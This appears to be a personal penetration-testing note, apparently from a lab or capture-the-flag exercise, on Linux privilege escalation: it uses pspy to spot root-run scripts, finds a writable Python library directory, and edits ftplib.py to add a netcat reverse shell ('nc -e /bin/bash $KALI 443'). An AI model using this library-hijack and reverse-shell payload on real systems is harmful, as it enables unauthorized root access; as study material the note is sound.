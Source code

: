 32 or 64?
```bash - target
uname -a
```
32 download
```bash - kali
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy32
```
64 download
```bash - kali
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
```
transfer to Target
![[Python#Server]]
```bash - target
chmod +x pspy64
```
Run with timeout for graceful exit!
```bash - kali
timeout 1m ./pspy64
```
Look at the output, look for any UID=0, as this is the root user.  Look for any commands that are calling a file / script that we may have write privileges to.
```bash - kali
find / -writable -type d 2>/dev/null
```
`/srv/ftp`
`/usr/lib/python2.7`
```bash - kali
cat /opt/ftpclient/ftpclient.py
```
```
import ftplib
...
```
```bash - kali
cd /usr/lib/python2.7
```
```bash - kali
ls -lah ftplib.py
```
`-rwxrw-r-- ftplib.py`
```bash - kali
nano ftplib.py
```
![[1._rlwrap]]
```python - kali
os.system("nc -e /bin/bash $KALI 443")
```
